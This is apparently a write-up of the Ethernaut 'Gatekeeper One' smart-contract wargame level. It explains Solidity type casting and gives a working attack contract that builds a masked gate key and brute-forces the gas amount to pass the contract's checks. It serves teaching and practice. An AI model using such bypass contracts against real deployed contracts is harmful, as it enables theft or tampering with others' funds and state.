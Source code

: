 ```yaml
---
description: type conversion and gasleft()
---
```


# 13 - Gatekeeper One

Ethernaut Level13: [Gatekeeper One](https://ethernaut.openzeppelin.com/level/0x2a2497aE349bCA901Fea458370Bd7dDa594D1D69)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Goal of this level

* call `enter` successfuly without revert

### What you should know

* Type Casting (see below)
* `gaseleft()`
* bitwise `&` operation

## Type Casting

### byte

#### 1) When casted to bigger type

`bytes20` -> `bytes32`

<pre class="language-solidity"><code class="lang-solidity"><strong>bytes20 addr = 0x34B4ab0479D10FdbAA3b52C8371C7B1BE5c73bb7;
</strong>
bytes32(addr);
// 0x34b4ab0479d10fdbaa3b52c8371c7b1be5c73bb7000000000000000000000000
</code></pre>

#### 2) When casted to smaller type

`bytes20` -> `bytes8`

```solidity
bytes20 addr = 0x34B4ab0479D10FdbAA3b52C8371C7B1BE5c73bb7;

bytes8(addr);
// 0x34B4ab0479D10Fdb
```

\-> discards **lower-order** bits

### uint

#### 1) When casted to bigger type

```solidity
uint16 val = 0xabcd;

bytes32(uint256(val)); // wrapped with bytes32 to show full bits
// 0x000000000000000000000000000000000000000000000000000000000000abcd"
```

#### 2) When casted to smaller type

```solidity
uint32 val = 0xabcdabcd;

bytes2(uint16(val)); // wrapped with bytes2 to show full bits
// 0xabcd
```

\-> discards **higher-order** bits

## Solution

#### gateThree

```solidity
contract AttackGatekeeperOne {
  event Success(bool);

  function attack(address instanceAddr) external {
    bytes8 _gateKey = bytes8(uint64(0xFFFFFFFF0000FFFF) & uint64(uint160(bytes20(msg.sender))));
    for(uint256 i = 0; i < 10000; i++) {
      (bool success, ) = instanceAddr.call{gas: 24000 + i}(abi.encodeWithSignature("enter(bytes8)", _gateKey));
      if(success) {
        emit Success(true);
        break;
      }
    }
  }
}
```

```solidity
0xFFFFFFFF0000FFFF
```

This value satisfies all three conditions.



```solidity
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
// 0x0000FFFF == 0xFFFF
```

```solidity
require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
// 0x0000FFFF !== 0xFFFFFFFF0000FFFF
```

```solidity
require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
// 0x0000FFFF == 0xFFFF
```

\-> Because of 3rd condition, we will do bitwise `&` operation.

#### gateTwo

Because the minimum amount of a transaction is `21,000 gas`, \
we will just add **3k** more gas on it (**3k** here is just an arbitrary number considering the rest of the operations) and loop it until it passes the condition of `gateTwo`.

Done! 😎
